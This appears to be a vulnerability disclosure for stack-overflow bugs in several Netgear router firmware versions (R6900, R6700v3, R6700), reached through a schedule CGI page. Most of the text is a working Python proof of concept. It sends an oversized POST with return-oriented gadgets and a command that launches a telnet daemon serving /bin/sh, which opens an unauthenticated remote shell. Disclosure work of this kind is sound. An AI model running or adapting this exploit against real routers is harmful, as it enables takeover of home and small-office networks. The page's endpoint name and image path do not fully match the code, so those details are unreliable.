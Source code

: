 # Netgear Routers vulnerability
Netgear includes three new versions of firmware, R6900 1.0.2.26, R6700v3 1.0.4.128, R6700 1.0.0.26. These versions of the firmware are vulnerable to a stack overflow as shown below.
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/AX12/298/vlun.png)
where sprintf v24 has only a finite size of 92 and getInputData v6, v21, v20, v19, v18 are controllable and may overflow the stack-based buffer.
By requesting the /fwSchedule.cgi page, an attacker can execute a denial-of-service attack or remote code execution using carefully crafted overflow data.
## POC
import socket
import sys

header = 'POST /fwSchedulePPP2.cgi?.css.ico/xxx/rpc/ HTTP/1.1\r\nHost: 127.0.0.1\r\nConnection: keep-alive\r\nAccept-Encoding: gzip, deflate\r\nAccept: */*\r\nUser-Agent: python-requests/2.23.0\r\nContent-Length: %d\r\n\r\n'
post_data = 'action=%E5%BA%94%E7%94%A8&checkboxNameAll=checkboxValue&checkboxNamehours=checkboxValue&schedule_day=255&schedule_alldayenable=0&starthour=0&startminute=0&endhour=23&result=apply&enable_apmode=0&endminute=59:00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000'
gadget = '%84%b7%03%00'
pad = '\x00'+'a'*(0x2d1 - len(post_data + gadget))
gadget2 = '\x48\xf5\x0c\x00'
cmd = '/bin/utelnetd -l/bin/sh -d;\x00'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((sys.argv[1] , int(sys.argv[2])))
s.send(header % len(post_data+gadget) + post_data + gadget + pad + gadget2 + cmd)
s.close()
